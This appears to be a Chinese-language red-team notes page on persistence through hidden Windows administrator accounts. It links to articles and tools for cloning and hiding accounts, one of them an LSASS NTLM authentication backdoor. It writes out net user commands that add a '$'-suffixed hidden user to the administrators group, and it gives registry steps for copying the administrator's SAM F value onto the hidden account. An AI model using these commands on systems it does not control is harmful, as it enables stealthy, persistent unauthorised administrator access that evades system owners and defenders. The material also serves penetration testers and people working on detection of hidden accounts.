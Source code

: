 **相关文章**
* [Windows完美实现克隆用户的方法](https://ai-sewell.me/2018/Windows%E5%AE%8C%E7%BE%8E%E5%AE%9E%E7%8E%B0%E5%85%8B%E9%9A%86%E7%94%A8%E6%88%B7%E7%9A%84%E6%96%B9%E6%B3%95/)
* [你能找到我么？-- 隐藏用户建立(Powershell)](https://evi1cg.me/archives/UserClone.html)
* [渗透技巧——Windows系统的帐户隐藏](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E7%B3%BB%E7%BB%9F%E7%9A%84%E5%B8%90%E6%88%B7%E9%9A%90%E8%97%8F/)
* [绕过反病毒添加管理员用户小结](https://mp.weixin.qq.com/s/UKJUBQFKf1lBctfckmieDg)
* [逃逸——当net命令被禁用](https://www.anquanke.com/post/id/255225)

**相关项目/工具**
* [Ch1ngg/AggressorScript-CreateCloneHiddenAccount](https://github.com/Ch1ngg/AggressorScript-CreateCloneHiddenAccount) - 创建一个克隆隐藏的管理员账号
* [An0nySec/ShadowUser](https://github.com/An0nySec/ShadowUser) - 影子用户 克隆
* [lengjibo/NetUser](https://github.com/lengjibo/NetUser) - 使用 windowsapi 添加用户，可用于 net 无法使用时
* [kindtime/nosferatu](https://github.com/kindtime/nosferatu) - Lsass NTLM Authentication Backdoor
* [0x727/CloneX_0x727](https://github.com/0x727/CloneX_0x727) - 进行克隆用户、添加用户等账户防护安全检测的轻巧工具
    ```
    CloneX.exe test 123456  # 新建用户
        CloneX.exe *test 123456  # powerful mode
    CloneX.exe test test1   # 克隆存在的用户
    ```
* [wgpsec/CreateHiddenAccount](https://github.com/wgpsec/CreateHiddenAccount) - 使用注册表创建隐藏帐户的工具

**$ 符号**

```bash
net user test$ 1234abcd~ /add                 # 添加用户
# Windows 的帐号名称后带着"$"符号时,不会在 net user 命令中显示出帐号信息
# 但是，在“计算机管理”——>“本地用户和组”——>“用户”中可以看到新创建的 “test$”。

net localgroup administrators test$ /add      # 将用户添加到管理组

net user test$ /del                           # 删除用户
query user                                      # 查看会话
logoff <ID号>                                   # 踢掉
```

**改注册表**

新建 test$ 用户,不需要加入到管理员组
```
net user test$ 1234abcd~ /add
```

打开注册表 `regedit`，给予administrator完全控制和读取注册表SAM键的权限

修改 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users`

将 `test$` 、和 `test$`、administrator对应注册表导出

![](../../../../assets/img/Security/RedTeam/后渗透/权限维持/7.png)

将隐藏账号的F键的值替换成adminstrator的F键的值

删除之前创建的隐藏账号：
```
net user test$ /del
```
